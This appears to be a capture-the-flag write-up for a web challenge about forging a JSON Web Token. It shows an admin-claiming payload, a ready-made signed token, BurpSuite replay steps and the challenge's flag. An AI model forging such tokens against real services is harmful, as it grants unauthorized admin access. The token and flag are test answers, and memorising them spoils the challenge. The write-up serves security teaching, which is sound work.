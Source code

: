 # CTF IDEH Web JWT Challenge - Writeup

## Challenge: Web JWT Challenge
- **Website:** [https://ideh-jwtorg.chals.io/](https://ideh-jwtorg.chals.io/)

## Challenge Steps

### Task Description

- The objective of this challenge is to exploit a JSON Web Token (JWT) vulnerability. Participants need to create a specific payload, generate a token, and then use BurpSuite to send a request that will reveal the flag.

### 1. Create Payload
- Create a JSON payload with the following content:

		```json
		{
		  "nom_utilisateur": "admin",
		  "is_admin": true
		}```

### 2. Generate Token

Use the payload to generate a JWT. The provided token is:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJub21fdXRpbGlzYXRldXIiOiJhZG1pbiIsImlzX2FkbWluIjp0cnVlfQ.Tas91qQdzYDImj_wmDpxZYw1EOzCyzDNqEUMy4Plsc
```

### 3. Go to BurpSuite

Navigate to BurpSuite or use your local BurpSuite instance.

### 4. Send Request

In BurpSuite, send a request using the generated token. Analyze the response to find the flag.

The flag for this challenge is:
		```
		IDEH{N0T_S3CUR3_JWT_S3CR3T_ORG!!}
		```

### 5. Challenge Solution

1. Payload Creation: The payload is crafted to impersonate an admin user.

2. Token Generation: The payload is encoded into a JWT using the algorithm specified. The resulting token is used for authentication.

3. BurpSuite Exploitation: Utilizing BurpSuite, participants intercept and modify the request to include the crafted JWT. The server the3. n responds with the flag, which participants extract.



[*] This challenge emphasizes the importance of securely implementing JWTs and highlights the risks associated with inadequate token validation. Participants learn about JWT vulnerabilities and the potential consequences of improper implementation.


Special thanks to CTF IDEH for creating and organizing this challenge.
